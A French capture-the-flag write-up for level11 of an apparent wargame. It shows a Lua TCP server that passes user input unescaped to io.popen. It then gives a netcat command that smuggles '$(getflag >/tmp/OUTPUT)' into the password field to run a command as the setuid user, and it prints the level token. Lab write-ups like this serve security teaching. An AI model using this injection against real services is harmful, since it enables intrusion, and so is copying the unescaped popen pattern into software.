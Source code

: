 # [level11]

### Observations
##### J'affiche le programme '~/level11.lua':
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

##### Détails du programme:
```bash
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
```

Je me rend compte que ce programme est exécuté par défaut en tant qu'utilisateur 'flag11' grâce à la commande:
```sh
ps aux | grep flag11
```

##### Entrées du programme:
```lua
string mot_de_passe
```

##### Fonctionnement:
Le programme est un serveur tcp qui tente de hasher la chaîne de caractères entrée par l'utilisateur. \
Il compare ensuite la chaîne hashée avec une chaîne prédefinie pour afficher différents messages inutiles. 

> Le serveur est hebergé sur l'addresse ip '127.0.0.1' avec le port '5151'.

> Le serveur est exécute en arriere-plan gràce a cron par defaut.

##### Conclusions:
La fonction hash a une vulnérabilité qui nous laisse exécuter du code shell comme nous le voulons. \
Vu que ce programme est exécuté par l'utilisateur 'flag11' par défaut nous pouvons avoir accès à son flag.

> La ligne suivante est la cause de la vulnérabilité: \
> prog = io.popen("echo "..pass.." | sha1sum", "r")

### Résolution
J'effectue une commande qui permet d'obtenir le résultat de la commande 'getflag' une fois dans le programme. \
Elle fonctionne car il suffit de créer un sous shell pour sortir de l'exécution classique du programme.\
Par la suite je redirige la sortie de cette dernière dans un fichier accessible car je ne pouvais pas la voir autrement.1 \
J'affiche ensuite le contenu de ce fichier.

#### commandes:
```sh
nc 127.0.0.1 5151 <<<'$(getflag >/tmp/OUTPUT)'
cat /tmp/OUTPUT
```

**token :** fa6v5ateaw21peobuub8ipe6s